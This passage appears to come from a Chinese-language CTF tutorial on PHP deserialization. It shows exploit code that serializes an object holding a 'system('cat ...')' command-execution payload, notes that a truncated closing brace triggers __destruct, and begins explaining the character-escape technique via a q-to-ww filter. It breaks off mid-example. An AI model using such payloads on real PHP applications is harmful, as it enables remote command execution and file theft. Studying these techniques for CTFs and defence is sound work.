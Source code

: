 $flag = new test();
$flag-&gt;b = &amp;$flag-&gt;a;
$flag-&gt;c = &#34;system(&#39;cat /fffffffffflagafag&#39;);&#34;;

echo urlencode(serialize($flag));
```



#### 直接去掉最后一个括号

&gt; 原理是出现这个序列化字符串报错导致直接触发__destruct



### PHP反序列化字符逃逸

#### 逃逸原理

反序列化时，是以`}`来进行结尾的，同时在字符串内，是以关键字后面的数字来规定所读取的内容的长度。

#### 过滤后字符变多

&gt; 原理是出现这个序列化字符串报错导致直接触发__destruct

正常反序列化

```
&lt;?php
class A{
	public $a=&#39;qqqqqqq&#39;;
	public $b=&#39;21&#39;;
}
function filter($a){
	$filter=&#39;/q/i&#39;;
	return preg_replace($filter,&#39;ww&#39;,$a);
}
$a=new A;
echo serialize($a);
```

运行结果

```
string(45)&#34;O:1:&#34;A&#34;:2{s:1:&#34;a&#34;;s:1:&#34;q&#34;;s:1:&#34;b&#34;;s:2:&#34;21&#34;;}&#34;
```

##### 关键函数

&gt; 【将序列化后的值，将所有的`&#39;q&#39;`变为`&#39;ww&#39;`】

```
function filter($a){
    $filter=&#39;/q/i&#39;;
    return preg_replace($filter,&#39;ww&#39;,$a);
}
```

##### 目的

要将反序列后`$b`的值变为我们想要的值。

带过滤的源码

```